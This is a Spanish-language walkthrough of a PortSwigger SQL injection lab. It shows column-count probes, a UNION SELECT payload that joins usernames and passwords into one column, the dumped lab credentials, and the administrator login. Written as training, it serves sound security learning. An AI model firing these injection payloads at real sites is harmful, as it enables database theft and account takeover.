




# Write-up - PortSwigger SQLi Lab 5

Voy a hacer un laboratorio de Port Swigger. El lab 5 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column) Descripción:

Lab: SQL injection UNION attack, retrieving multiple values in a single column.

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación por lo que puedes usar un ataque UNION para recuperar datos de otras tablas.

The database contains a different table called users, with columns called username and password.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Para resolver el laboratorio, realiza un ataque de inyección SQL UNION que recupere todos los nombres de usuario y contraseñas, y usa la información para iniciar sesión como el usuario administrator.

Le damos a abrir lab y nos abre una página con la url: https://0a6700dc03dc3880818efca2005b00a5.web-security-academy.net/

La página web tiene el aspecto de la imagen 1.



**imagen 1:** Vista inicial del laboratorio.

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página. Como ya nos da pistas la descripción del laboratorio, vamos a hacer el mismo de proceso de SQL injection UNION.

Para ello, nos vamos a la categoria de Tech gifts => https://0a6700dc03dc3880818efca2005b00a5.web-security-academy.net/filter?category=Tech+gifts

Y desde burpsuite enviamos dicha petición al Repeater:

```http
GET /filter?category=Tech+gifts HTTP/2
Host: 0a6700dc03dc3880818efca2005b00a5.web-security-academy.net
Cookie: session=J3mXBFQjJ1iSdKekB9Dt6X7PniA4vjml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6700dc03dc3880818efca2005b00a5.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Y repetimos el mismo proceso de antes:

```http
' ORDER BY 1--
HTTP/2 200 OK

' ORDER BY 2--
HTTP/2 200 OK

' ORDER BY 3--
HTTP/2 500 Internal Server Error
```

Tenemos por tanto 2 columnas en la tabla.

Ahora vamos a verificar que columnas aceptan texto:

Para ello probamos a meter esta consulta en el parámetro de antes, y probamos en cada columna dejando el resto a NULL:

```http
' UNION SELECT 'a',NULL--
HTTP/2 500 Internal Server Error

' UNION SELECT NULL,'a'--
HTTP/2 200 OK
```

Solo tenemos un campo que nos acepta texto, lo cual la consulta de antes no nos vale, porque solo tenemos un campo que acepta texto y por tanto va a dar error:

The database contains a different table called users, with columns called username and password.

```http
' UNION SELECT username, password FROM users--
HTTP/2 500 Internal Server Error
```

Pero podemos concatenar paraguardar en una sola columna de salida ambos valores con esta inyección:

```http
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
HTTP/2 200 OK
```

Vemos que la salida en la página es la de la imagen 2.



**imagen 2:** Salida de la inyección mostrando usuarios y contraseñas concatenados con `~` en la misma columna.

Nos salen usuarios y su contraseña enlazados por ~ en la misma columna

```text
carlos~ryt485u7f54nyat7srna
wiener~m9m65kd27qbqt3gdmvpz
administrator~4qeqv833wzlpngct1izj
```

Ahora nos logueamos, para ello nos vamos a My Account:

y rellenamos con las credenciales administrator y 4qeqv833wzlpngct1izj (imagen 3)



**imagen 3:** Login con las credenciales del usuario `administrator`.

y cuando le damos al botón Login nos sale nuestro panel administrator y que hemos completado el laboratorio (imagen 4)



**imagen 4:** Panel de `administrator` y confirmación de laboratorio resuelto.
